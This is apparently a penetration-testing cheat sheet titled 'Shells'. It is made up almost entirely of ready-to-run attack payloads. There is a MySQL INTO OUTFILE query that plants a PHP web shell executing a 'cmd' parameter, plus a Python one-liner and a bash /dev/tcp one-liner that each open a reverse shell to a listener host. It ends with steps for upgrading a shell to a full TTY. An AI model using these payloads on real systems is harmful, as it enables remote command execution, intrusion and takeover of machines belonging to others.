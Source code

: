 # Shells

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

## Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse shell bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !